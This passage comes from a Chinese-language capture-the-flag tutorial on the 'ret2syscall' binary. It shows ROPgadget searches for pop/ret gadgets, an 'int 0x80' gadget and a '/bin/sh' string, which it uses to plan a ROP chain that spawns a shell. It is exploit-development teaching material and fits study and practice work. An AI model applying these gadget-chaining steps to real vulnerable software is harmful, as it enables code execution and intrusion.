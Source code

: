类似的，我们可以得到控制其它寄存器的 gadgets
```
$ ROPgadget --binary ret2syscall --only 'pop|ret'|grep ebx
0x0809dde2 : pop ds ; pop ebx ; pop esi ; pop edi ; ret
0x0809ddda : pop eax ; pop ebx ; pop esi ; pop edi ; ret
0x0805b6ed : pop ebp ; pop ebx ; pop esi ; pop edi ; ret
0x0809e1d4 : pop ebx ; pop ebp ; pop esi ; pop edi ; ret
0x080be23f : pop ebx ; pop edi ; ret
0x0806eb69 : pop ebx ; pop edx ; ret
0x08092258 : pop ebx ; pop esi ; pop ebp ; ret
0x0804838b : pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x080a9a42 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 0x10
0x08096a26 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 0x14
0x08070d73 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 0xc
0x0805ae81 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 4
0x08049bfd : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 8
0x08048913 : pop ebx ; pop esi ; pop edi ; ret
0x08049a19 : pop ebx ; pop esi ; pop edi ; ret 4
0x08049a94 : pop ebx ; pop esi ; ret
0x080481c9 : pop ebx ; ret
0x080d7d3c : pop ebx ; ret 0x6f9
0x08099c87 : pop ebx ; ret 8
0x0806eb91 : pop ecx ; pop ebx ; ret
0x0806336b : pop edi ; pop esi ; pop ebx ; ret
0x0806eb90 : pop edx ; pop ecx ; pop ebx ; ret
0x0809ddd9 : pop es ; pop eax ; pop ebx ; pop esi ; pop edi ; ret
0x0806eb68 : pop esi ; pop ebx ; pop edx ; ret
0x0805c820 : pop esi ; pop ebx ; ret
0x08050256 : pop esp ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x0807b6ed : pop ss ; pop ebx ; ret
```

现在，我们就得到了可以控制4个寄存器的地址：
`0x080bb196 : pop eax ; ret`
`0x0806eb90 : pop edx ; pop ecx ; pop ebx ; ret`

另外，我们要向ebx写入'/bin/sh'，同时执行int 80
所以要搜索，看看程序中有没有
```
$ ROPgadget --binary ret2syscall --only int
Gadgets information
============================================================
0x08049421 : int 0x80
0x080938fe : int 0xbb
0x080869b5 : int 0xf6
0x0807b4d4 : int 0xfc

Unique gadgets found: 4
```

```
$ ROPgadget --binary ret2syscall --string '/bin/sh'
Strings information
============================================================
0x080be42c : /bin/sh
```

